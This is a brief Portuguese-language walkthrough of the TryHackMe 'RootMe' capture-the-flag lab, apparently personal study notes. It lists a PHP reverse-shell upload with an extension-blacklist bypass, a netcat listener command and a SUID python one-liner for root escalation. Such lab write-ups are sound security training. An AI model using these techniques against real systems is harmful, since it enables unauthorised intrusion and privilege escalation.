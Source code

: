 # TryHackme - Rootme

[RootMe Room](https://tryhackme.com/room/rrootme)

### hangzou

1. **Reconhecimento**

   I. **Nmap Scan**
   
      - Portas
      - Serviços/Protocolos

   II. **Gobuster**
       
       - /panel/
       - /uploads/

2. **Shell Reverso**

   I. **PHP**
   
      - /usr/share/laudanum/php/php-reverse-shell.php
      - [Pentest Monkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

   II. **Blacklist Bypass**
   
      - .php3
      - .php4
      - .php5
      - .phtml

   III. **Netcat**
   
      - Endereço IP da Rede THM
      - nc -lvnp 4444
 
      > Solucionado com ajuda de Writeup

3. **Escalação de Privilégio**

   I. **Exploração de Permissão SUID**
      - /usr/bin/python 

      > Solucionado com ajuda de Writeup 

   II. **Python**
      - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
 
   III. **Root**
      - `cd /root/`
      - `ls`
      - root.txt
      - `cat root.txt`

## Concluido!

Writeup Consultado:
 
[Infosec Writeup](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

Observação:

Essa anotação é apenas um teste, que visa descrever meu passo a passo da resolução dos desafios do TryHackMe.
